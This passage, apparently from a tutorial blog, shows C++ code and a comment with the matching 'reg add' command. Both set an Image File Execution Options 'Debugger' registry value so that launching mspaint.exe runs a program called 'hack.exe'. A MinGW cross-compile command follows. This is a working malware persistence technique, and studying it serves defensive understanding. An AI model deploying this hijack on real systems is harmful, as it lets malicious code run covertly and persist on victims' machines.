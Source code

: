 ```cpp
  const char* exe = "hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\mspaint.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Let's compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 pers2.cpp -o pers2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/68/2022-09-12_03-00.png){width="80%"}    

An example of how this appears in action:    
